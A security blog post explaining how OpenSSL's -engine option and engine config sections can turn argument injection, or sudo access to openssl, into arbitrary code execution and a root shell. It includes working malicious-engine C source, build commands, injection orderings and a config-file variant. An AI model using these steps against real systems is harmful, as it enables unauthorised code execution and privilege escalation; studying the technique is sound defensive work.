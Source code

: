 ```yaml
---
layout: post
title: OpenSSL Arg Injection 
permalink: /posts/openssl-arginjection
redirect_from:
  - /openssl-arginjection/
---
```


# OpenSSL code execution through argument injection

This is a short little post detailing how to get OpenSSL to run arbitrary code through the use of the `-engine` option. As detailed in the docs, an OpenSSL engine is a new component "to support alternative cryptography implementations, most commonly for interfacing with external crypto devices".  These engines consist of compiled code which is loaded by OpenSSL, and can be used to run arbitrary code. 

This is useful in situations such as if you have the ability to pass arguments (like in an argument injection vulnerability) to OpenSSL, or can alter a configuration file used to generate certificates. If you have sudo access to OpenSSL, you can easily elevate to full root. Exploiting this does however require placing the malicious engine file somewhere on the disk of the target file system. 

On Windows (using a commonly distributed OpenSSL windows binary) it appears you can also use UNC paths for the engine DLLs, which also has the convenient effect of disclosing NetNTLMv2 hashes should you wish them. However, if you're at this point, you should be able to get command execution using a malicious engine.

I've found multiple applications that allow argument injection into OpenSSL, and using this argument injection has enabled me to turn that into code execution.

## Details

For demonstration purposes, I have a system running Debian 10 with OpenSSL installed and the `libssl-dev` package. Create a file "engine.c", with the following contents:

```
#include <stdio.h>
#include <openssl/engine.h>

static const char *engine_id = "malengine";
static const char *engine_name = "Engine for executing arbitrary code";

static int bind(ENGINE *e, const char *id){
    int ret = 0;
    int status = system("/bin/bash -c 'echo \"arbitrary code\"'");
    if(!ENGINE_set_id(e,engine_id)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    if(!ENGINE_set_name(e,engine_name)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    ret = 1;
    end:
        return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
This file is mostly sourced from [this OpenSSL blog](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/).

**Update:** I submitted [a PR to GTFOBins and a maintainer replied with a much simpler engine file](https://github.com/GTFOBins/GTFOBins.github.io/pull/125):

```
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", "-c","echo 'arbitrary code'");
}
```


Compile it using the following gcc command, which will create the `engine.so` shared library. The engine file does not need to end in .so. This is very convenient as if you have a a web application that only allows whitelisted extensions for files written to disk you can get an engine file on there. 

`gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -lcrypto a.o`

and then use the following OpenSSL command:
`openssl req -engine ~/engine.so`

which will output the following:
```
user@debian10:~$ openssl req -engine ~/engine.so
arbitrary code
engine "rce" set.
```

If you can run openSSL with sudo, you can spawn a bash shell:

`int status = system("/bin/bash");`

```
user@debian10:~$ sudo openssl req -engine ~/engine.so
root@debian10:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian10:/home/user# 
```

Several other OpenSSL commands seem to support the engine parameter, such as  
```
openssl rsa -engine ~/engine.so
openssl s_client -engine ~/engine.so
openssl x509 -engine ~/engine.so
```

and probably some more, just check the man page. 

Exploiting these in argument injection vulnerabilities isn't always trivial as just injecting the engine parameter, as depending on the position of the injected argument you may also need to have a valid set of OpenSSL arguments. Interestingly enough the engine seems to be loaded even if the other Openssl args are invalid, as long as the engine argument preceeds the invalid argument. So we see:

```
user@debian10:~$ openssl req INVALID -engine ~/engine.so
req: Use -help for summary.
user@debian10:~$  

```
doesn't work, however the following does:
```
user@debian10:~$ openssl req -engine ~/engine.so INVALID
arbitrary code
engine "rce" set.
req: Use -help for summary.
user@debian10:~$ 
```

If you can write multiple lines into an OpenSSL config file somehow (%0a perhaps...), you can probably get an engine reference in there. Create a config file like:

```
[default]
openssl_conf = openssl_init

[openssl_init]
engines = engine_section

[engine_section]
foo = foo_section

[foo_section]
dynamic_path = /home/user/engine.so
init = 1

```

then when this is used by OpenSSL:
```
user@debian10:~$ openssl req -new -config test.cnf
arbitrary code
Generating a RSA private key
..........................+++++
............................+++++
writing new private key to stdout
```

One of the major downsides with malicious engines like this is that they are not particularly portable. If your target system is running an older or newer version of OpenSSL your generated engine may not work. You'll need to set up an environment that matches the target system to compile the engine, or do it on the target system if possible. There may be a way to generate more portable versions of these engines that work with multiple versions of OpenSSL.

Also, it probably doesn't need saying but *this is not a vulnerability in OpenSSL*.
